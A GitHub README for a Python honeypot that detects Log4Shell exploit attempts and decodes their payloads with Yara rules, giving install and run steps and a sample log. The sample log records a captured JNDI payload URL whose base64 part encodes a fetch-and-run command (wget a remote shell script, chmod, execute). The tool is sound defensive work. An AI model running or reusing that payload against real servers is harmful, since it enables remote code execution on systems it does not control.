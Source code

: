 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs information when a wild log4j exploit appears

The [Phorcys](https://github.com/PiRanhaLysis/Phorcys) dependency is used to decode payload automatically and then match with Yara rules.

## Installation

### Dependancies

```shell
sudo apt install libcurl4-nss-dev libpython3.9-dev libnss3 libnss3-dev
```

```shell
pip install -r requirements.txt
```

## Running

For ports that don't require TLS

with python:
```shell
python3 detector.py [port]
```

with docker:
```shell
docker build -t log4j_catcher .
docker run -itp 8080:8080 --env PORT=8080 log4j_catcher
```

For services with TLS it is recommended to have another component to handle the TLS protocol.
I typically run NGINX as a reverse proxy on the port 443 to forward https traffic to the honeypot.

Example:
```shell
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Data is logged into current directory path.
